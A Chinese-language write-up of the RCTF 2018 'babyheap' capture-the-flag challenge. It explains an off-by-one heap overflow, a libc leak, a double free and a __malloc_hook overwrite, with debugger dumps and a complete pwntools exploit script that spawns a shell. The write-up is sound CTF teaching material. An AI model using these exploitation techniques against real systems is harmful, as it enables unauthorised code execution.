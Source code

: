 # RCTF babyheap
## Author: 文火

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>先贴一下**securisecctf队**写的[原wp](https://twisted-fun.github.io/2018-05-24-RCTF18-PWN-317/)的地址，我在这里配合这篇wp再解析一下。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>拿到二进制文件后常规检查一下，可以看到程序本身所有的保护都开了，而libc有一个没开，这意味这我们有改写libc的GOT表的权限，在这里我们可以修改__malloc_hook。</font></br>

![babyheap1](../../screenshot/babyheap/babyheap1.png)

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>用IDA打开附带的libc.so.6，搜索字符串，跟踪/bin/sh，可以看到从**0x4526a**地址处开始有调用execve("/bin/sh")，因此这里就是我们用来getshell的gadget了；用'objdump -R libc.so.6 | grep hook'命令得到__malloc_hook的地址:**0x3c3ef0**</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>然后我们开始分析这个程序，很典型的堆题套路，漏洞点就在alloc的时候，输入堆块内容的时候存在溢出最后一字节的可能性:</font></br>

```C
__int64 __fastcall set_chunk(__int64 chunk, unsigned int size)
{
  char buf; // [sp+13h] [bp-Dh]@2
  unsigned int i; // [sp+14h] [bp-Ch]@1
  __int64 v5; // [sp+18h] [bp-8h]@1

  v5 = *MK_FP(__FS__, 40LL);
  for ( i = 0; i < size; ++i )
  {
    buf = 0;
    if ( read(0, &buf, 1uLL) < 0 )
      put_error((__int64)"read() error");
    *(_BYTE *)(chunk + i) = buf;
    if ( buf == 10 )
      break;
  }
  *(_BYTE *)(i + chunk) = 0;
  return *MK_FP(__FS__, 40LL) ^ v5;
}
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>64位下利用off-by-one漏洞需要分配一个MINSIZE-8的大小，（不懂原理的可以先看[这里](https://sploitfun.wordpress.com/2015/06/09/off-by-one-vulnerability-heap-based/ "sploitfun")）然后就可以在8字节覆盖完了堆的pre_size后，剩下的溢出的最后一个NULL字节覆盖size的最低地址，抹掉了prev_inuse的标志位，就可以让allcator误以为前面的堆块已经被释放了，触发合并操作，然后配合double-free就可以为所欲为了。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>有了利用思路后，我们首先分配四个堆块，并且尝试泄露libc地址。</font></br>

```python
alloc(0xf0,'A' * 0xf0)#0
alloc(0x70,'A' * 0x70)#1
alloc(0xf0,'A' * 0xf0)#2
alloc(0x30,'A' * 0x30)#3
delete(0)
delete(1)

alloc(0x78,'B' * 0x70 + p64(0x180))#0

delete(2)
alloc(0xf0,'A' * 0xf0)

show(0)
r.recvuntil('content: ')
libc_base = u64(r.recv(6) + "\x00" * 2) - libc.symbols['__malloc_hook'] - 0x68
log.info("libc : " + hex(libc_base))
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>有一点需要注意的是程序内部记录堆块和内存中真正bins里的记录是不一样的，比如分配完之后链表是这样的:</font></br>

```C
pwndbg> x/10xg 0x511654eb7000
0x511654eb7000:	0x000055f71691e400	0x000055f71691e500
0x511654eb7010:	0x000055f71691e580	0x000055f71691e680
0x511654eb7020:	0x0000000000000000	0x0000000000000000
0x511654eb7030:	0x0000000000000000	0x0000000000000000
0x511654eb7040:	0x0000000000000000	0x0000000000000000
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>释放完了0号和1号堆块之后是这样的：</font></br>

```C
pwndbg> x/10xg 0x511654eb7000
0x511654eb7000:	0x0000000000000000	0x0000000000000000
0x511654eb7010:	0x000055f71691e580	0x000055f71691e680
0x511654eb7020:	0x0000000000000000	0x0000000000000000
0x511654eb7030:	0x0000000000000000	0x0000000000000000
0x511654eb7040:	0x0000000000000000	0x0000000000000000
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>然后我们重新申请一块0x78(MINSIZE-8)的内存之后实际上分配过来的是原来的1号堆块，但是程序记录时重新将这个堆块标记为0：</font></br>

```C
pwndbg> x/10xg 0x511654eb7000
0x511654eb7000:	0x000055f71691e500	0x0000000000000000
0x511654eb7010:	0x000055f71691e580	0x000055f71691e680
0x511654eb7020:	0x0000000000000000	0x0000000000000000
0x511654eb7030:	0x0000000000000000	0x0000000000000000
0x511654eb7040:	0x0000000000000000	0x0000000000000000
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>如上，这就像是链表中原先1号堆块被放到了0号，不过这么理解不太好。实际上是分别释放完了堆块0和1以后（实际bins是向前插入），内存中bins是：{1，0，...}，然后我们再次申请跟1相同大小的内存块的时候系统会直接返还给之前的堆块给我们也就是堆块1，然而这个堆块1会被程序记录为0。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>好了，废话有点多，接下来我们分配的是MINSZIE-8大小的堆块，所以实际上存在8字节可以覆盖下一个堆块（堆块2）的pre_size，然后NULL byte可以覆盖size的pre_inuse标志，当我们写入0x70*'a'+p64(0x180)的时候，下一个堆块的pre_size被修改为0x180,然后pre_inuse被清除，这就相当于欺骗了malloc以为之前有一个0x180大小的已经被释放的堆块，然后我们delete堆块2，malloc就会把这两个堆块合并起来，就会存在一个0x280的大堆块。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>接下来再分配一个0xf0大小的堆块，会被记录为1号，但是在内存里会被放在1号堆块之前的位置，这时候链表是这样的：</font></br>

```C
pwndbg> x/10xg 0x511654eb7000
0x511654eb7000:	0x000055f71691e500	0x000055f71691e400
0x511654eb7010:	0x0000000000000000	0x000055f71691e680
0x511654eb7020:	0x0000000000000000	0x0000000000000000
0x511654eb7030:	0x0000000000000000	0x0000000000000000
0x511654eb7040:	0x0000000000000000	0x0000000000000000

pwndbg> x/20xg 0x000055f71691e400
0x55f71691e400:	0x4141414141414141	0x4141414141414141
0x55f71691e410:	0x4141414141414141	0x4141414141414141
0x55f71691e420:	0x4141414141414141	0x4141414141414141
0x55f71691e430:	0x4141414141414141	0x4141414141414141
0x55f71691e440:	0x4141414141414141	0x4141414141414141
0x55f71691e450:	0x4141414141414141	0x4141414141414141
0x55f71691e460:	0x4141414141414141	0x4141414141414141
0x55f71691e470:	0x4141414141414141	0x4141414141414141
0x55f71691e480:	0x4141414141414141	0x4141414141414141
0x55f71691e490:	0x4141414141414141	0x4141414141414141
pwndbg> 
0x55f71691e4a0:	0x4141414141414141	0x4141414141414141
0x55f71691e4b0:	0x4141414141414141	0x4141414141414141
0x55f71691e4c0:	0x4141414141414141	0x4141414141414141
0x55f71691e4d0:	0x4141414141414141	0x4141414141414141
0x55f71691e4e0:	0x4141414141414141	0x4141414141414141
0x55f71691e4f0:	0x0000000000000000	0x0000000000000181
0x55f71691e500:	0x00007f1e8aa59b78	0x00007f1e8aa59b78
0x55f71691e510:	0x4242424242424242	0x4242424242424242
0x55f71691e520:	0x4242424242424242	0x4242424242424242
0x55f71691e530:	0x4242424242424242	0x4242424242424242

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>接下来输入0号堆块的内容，就会泄露出main_arena的地址了，再进行一些计算就能算出libc_base的实际地址，绕过ASLR：</font></br>

```C
 0x55f71690f000     0x55f71693f000 rw-p    30000 0      [heap]
 0x7f1e8a695000     0x7f1e8a855000 r-xp   1c0000 0      /lib/x86_64-linux-gnu/libc-2.23.so

```
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>接下来进行如下操作：</font></br>

```python
delete(1)

alloc(0x10, 'A' * 0x10)#1
alloc(0x60, 'B' * 0x60)#2
alloc(0x60, 'C' * 0x60)#4
# below chunk will be placed on same address as overlapped chunk
alloc(0x60, 'D' * 0x60)#5
# free overlapped chunk address twice
delete(5)
delete(4)
delete(0)
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>释放完了堆块1号（内存实际位置在0号堆块之前），下面三次alloc都会重新返回刚释放的堆块的地址。在第四次alloc的时候，会把0号堆块切割一下返回分配出来，并被设置为5号堆块，这个时候如果我们free堆块5号和堆块0号（为什么可以free堆块0？因为程序并不知情已经被合并到一个大空闲块了，但是链表记录还在:），相当于对同一个堆块free了两次，出现了double free漏洞，这里我们再free一下4号绕过简单的double free检测，然后就可以利用了：</font></br>

```python
fake_chunk = libc_base + libc.symbols['__malloc_hook'] - 0x23
oneshot = libc_base + 0x4526a
alloc(0x60, p64(fake_chunk) + p64(0) + "H"*0x50)
alloc(0x60,'A' * 0x60)
alloc(0x60,'A' * 0x60)
alloc(0x60,'A' * 0x13 + p64(oneshot) + "\n")

r.sendlineafter("choice: ", "1")
r.sendlineafter(": ", "1")
r.interactive()
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>然后就得到shell了，完整脚本如下：</font></br>

Exploit脚本：
=========

```python
from pwn import *

DEBUG = 1

if DEBUG == 1:
  r = process('./babyheap')
  context(log_level='debug')
  gdb.attach(r)
else:
  r = remote('babyheap.2018.teamroir.cn',3154)

def alloc(size, payload):
        r.sendlineafter('choice: ','1')
        r.sendlineafter('please input chunk size: ',str(size))
        r.sendafter('input chunk content: ',payload)
def show(index):
        r.sendlineafter('choice: ','2')
        r.sendlineafter('please input chunk index: ',str(index))
def delete(index):
        r.sendlineafter('choice: ','3')
        r.sendlineafter('please input chunk index: ',str(index))

libc = ELF('./libc.so.6')
alloc(0xf0,'A' * 0xf0)#0
alloc(0x70,'A' * 0x70)#1
alloc(0xf0,'A' * 0xf0)#2
alloc(0x30,'A' * 0x30)#3
delete(0)
delete(1)

alloc(0x78,'B' * 0x70 + p64(0x180))#0

delete(2)
alloc(0xf0,'A' * 0xf0)

show(0)
r.recvuntil('content: ')
libc_base = u64(r.recv(6) + "\x00" * 2) - libc.symbols['__malloc_hook'] - 0x68
log.info("libc : " + hex(libc_base))

delete(1)

alloc(0x10, 'A' * 0x10)#1
alloc(0x60, 'B' * 0x60)#2
alloc(0x60, 'C' * 0x60)#4
# below chunk will be placed on same address as overlapped chunk
alloc(0x60, 'D' * 0x60)#5
# free overlapped chunk address twice
delete(5)
delete(4)
delete(0)
fake_chunk = libc_base + libc.symbols['__malloc_hook'] - 0x23
oneshot = libc_base + 0x4526a
alloc(0x60, p64(fake_chunk) + p64(0) + "H"*0x50)
alloc(0x60,'A' * 0x60)
alloc(0x60,'A' * 0x60) 
alloc(0x60,'A' * 0x13 + p64(oneshot) + "\n")

r.sendlineafter("choice: ", "1")
r.sendlineafter(": ", "1")
r.interactive()

```
